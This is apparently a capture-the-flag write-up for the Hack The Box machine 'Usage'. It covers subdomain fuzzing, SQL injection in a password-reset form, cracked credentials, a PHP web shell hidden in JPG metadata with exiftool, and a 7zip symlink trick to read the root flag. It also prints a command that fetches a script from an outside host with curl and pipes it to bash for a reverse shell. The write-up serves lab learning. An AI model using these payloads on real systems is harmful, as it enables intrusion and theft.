Subdomain found with ffuf
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.usage.htb" -u http://usage.htb/ -fs 178
FUZZ: admin
Shell as Dash
Running SqlMap on every request we can make the forgot password has sql injection
http://usage.htb/forget-password
Request which is injectable
POST /forget-password HTTP/1.1Host: usage.htbUser-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflate, brContent-Type: application/x-www-form-urlencodedContent-Length: 69Origin: http://usage.htbConnection: closeReferer: http://usage.htb/forget-passwordCookie: XSRF-TOKEN=eyJpdiI6IjRwTlI1bW9maHM5dDcyR283ZC9qNkE9PSIsInZhbHVlIjoiVHZtVU9ySTZhTHZkRElvcVYrb0w4WUxTMDh4Sm5pbEhaYWJLOWIrcE8vdGdGRnpXdldMZlZzKzM5S1h5VHhJc2VWazlwNFZ0Sk5hZFBudGtNT3ZDQVBxMDBFNnE2VWp2ejIvK0lPMDFjSzVjVDE2VCs0ZURic0pOeitjejNrVVgiLCJtYWMiOiJmNTBjNTA3Nzg4NTM0NDZmYTAzNWM4YTkwNjYzZWU2NTJlNGY3NGU2YmI1MTI4NDY1OTBiYTU2ODYxZjVhMDY5IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6ImJEWlpWcXhnK2IwSDlSZnpuT0Z4T3c9PSIsInZhbHVlIjoic3hmdzFHdWt2eG5JYTJyTGM1MTdONHJ2c3M3UEF6ZkVZWWZyK1JLT0l2TEduS0lYY2VuRUlIVlJRUlEvcUowNE04MkJ5Q2VEeWo5c1g5TjJ0MEUrY0NNckJoUWJud2Nvam12OXpRVWJPT0dzeFpJd1cxNG1JeitaUmZ6WHJUbkgiLCJtYWMiOiI2ZjU3N2Q3MDcyNTAzZjcyNmU4ODk2MDQ1NmQwY2ZiNjhkNjFjM2E3NzJmMGQwZjYyM2EyMDAwZGFmM2JhZWI4IiwidGFnIjoiIn0%3DUpgrade-Insecure-Requests: 1
_token=W38CnQYDZ2j8EFXxws50KSBG5rN9iyS78RJzsQgL&email=test%40test.com
Looks like raj@raj.com is the user we are looking for. It was dumping all users including my test account and other users test accounts as this machine was live.

Hash cracks to xander

raj@raj.com:xander
Administrator | <blank> | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 | admin | 2023-08-13 02:48:26 | 2023-08-23 06:02:19 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |
admin cracks to whatever1 and we can actually sign into the admin portal. For some reason it took a few attempts.
admin:whatever1

The web page allows us to update profile pictures for the admin user.
I create a malicious jpg file with exiftool
exiftool -DocumentName="<h1>Testing<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" images.jpg
then we upload it just like that and capture the request in burpsuite and add the .php extension to the end making it images.jpg.php
The file will then upload successfully. We right click the image and click open in new tab(we have to do this very very fast as there is a script removing the uploaded pictures every 60 seconds.)

Once we are on the new tab we add ?cmd=<payload> to the end of the URL to trigger a command
The command below will grab a bash script and execute it with bash giving us a reverse shell
curl+http%3a//10.10.14.24%3a8000/shell.sh+|+bash
http://admin.usage.htb/uploads/images/image.jpg.php?cmd=curl+http%3a//10.10.14.24%3a8000/shell.sh+|+bash

We can get the user.txt flag, however there is another use on this machine named xander
Shell as Xander
I added my RSA key so I could ssh into the machine and when doing so I saw an interesting hidden file named .monitrc in Dash's home directory. The file contains credentials for Xander. So within about 45 seconds of being on the machine I already had creds for Xander.
xander:3nc0d3d_pa$$w0rd

Privledge escalation to Root
User xander may run the following commands on usage:
(ALL : ALL) NOPASSWD: /usr/bin/usage_management
Running this gives us 3 options

The only one thats actually interesting is Project backup as it gives us output and uses 7zip

I looked up the version and there are some exploits for 7zip 16.02 but nothing we can really use. I found an article from hack tricks explaining symlinks and how we can use it to read files we dont have access to with 7zip. I read this and also read 0xdf explain it on a different machine.
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks
https://0xdf.gitlab.io/2019/07/20/htb-ctf.html
Essentially you create a symlink with a file and you link it to /root/root.txt and when 7zip tries to zip the file you create it gets an error and displays the root flag that we are unable to read.
I see its accessing the folders in /var/www/html so this is where I decide to place the symlinks

Exploitation steps(i initially tried this in the project_admin directory which failed and had me stumpped for a while but I knew this had to be the correct exploit so I placed this file in all directories located in /var/www/html

We have to do this fast as well because something is removing the things we place in those directories shortly after creating them. When we run the script again it triggers the symlink, triggering the error, displaying the root flag.

Really fun machine, root had me stuck for a little bit.